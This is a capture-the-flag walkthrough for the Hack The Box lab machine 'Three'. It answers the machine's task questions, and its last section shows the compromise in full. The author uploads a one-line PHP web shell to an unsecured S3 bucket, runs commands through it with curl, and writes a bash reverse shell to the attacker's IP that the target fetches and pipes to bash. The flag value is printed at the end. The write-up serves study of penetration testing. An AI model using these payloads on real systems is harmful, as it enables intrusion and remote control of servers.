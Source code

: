 # Three

> Task 1 - How many TCP ports are open? 

```
2
```

> Task 2 - What is the domain of the email address provided in the "Contact" section of the website? 

```bash
# Use the raw IP, then add to /etc/hosts
thetoppers.htb
```

> Task 3 - In the absence of a DNS server, which Linux file can we use to resolve hostnames to IP addresses in order to be able to access the websites that point to those hostnames? 

```bash
/etc/hosts
```

> Task 4 - Which sub-domain is discovered during further enumeration? 
```bash
gobuster vhost -w ../SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u http://thetoppers.htb -o gobuster.vhost.out
```
```
s3.thetoppers.htb
```

> Task 5 - Which service is running on the discovered sub-domain? 

```
Amazon S3
```

> Task 6 - Which command line utility can be used to interact with the service running on the discovered sub-domain? 

```
awscli
```

> Task 7 - Which command is used to set up the AWS CLI installation? 

```bash
aws configure
```

> Task 8 - What is the command used by the above utility to list all of the S3 buckets? 

```bash
aws s3 ls
```

> Task 9 - This server is configured to run files written in what web scripting language? 

```
php
```

> Submit root flag

```bash
# Configure cli with fake creds (i.e. values of tmp, tmp etc.)
aws --endpoint=http://s3.thetoppers.htb s3 ls
2023-11-18 21:28:12 thetoppers.htb
```
```bash
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
                           PRE images/
2023-11-18 21:28:12          0 .htaccess
2023-11-18 21:28:12      11952 index.php
```
```bash
mkdir bucket_contents && cd bucket_contents && \
aws --endpoint=http://s3.thetoppers.htb s3 cp s3://thetoppers.htb . --recursive
```
```bash
echo '<?php system($_GET["command"]); ?>' > lfi.php && \
aws --endpoint=http://s3.thetoppers.htb s3 cp lfi.php s3://thetoppers.htb
```
```bash
curl -k -s http://thetoppers.htb/lfi.php\?command\=uptime
 23:14:24 up  1:46,  0 users,  load average: 0.00, 0.01, 0.00
```
```bash
# create reverse.sh with below
#!/bin/bash
bash -i >& /dev/tcp/$YOUR_IP/9999 0>&1
```
```bash
# start webserver
python -m http.server -b 0.0.0.0
# new shell, listen for reverse shell
nc -nvlp 9999
# new shell, curl the webserver to get and execute reverse.sh
curl http://thetoppers.htb/lfi.php\?command\=curl%20<IP>:8000/reverse.sh\|bash
www-data@three:/var/www/html$ # popped box
```
```bash
cd ~ && cat flag.txt
```
```
HTB{a980d99281a28d638ac68b9bf9453c2b}
```
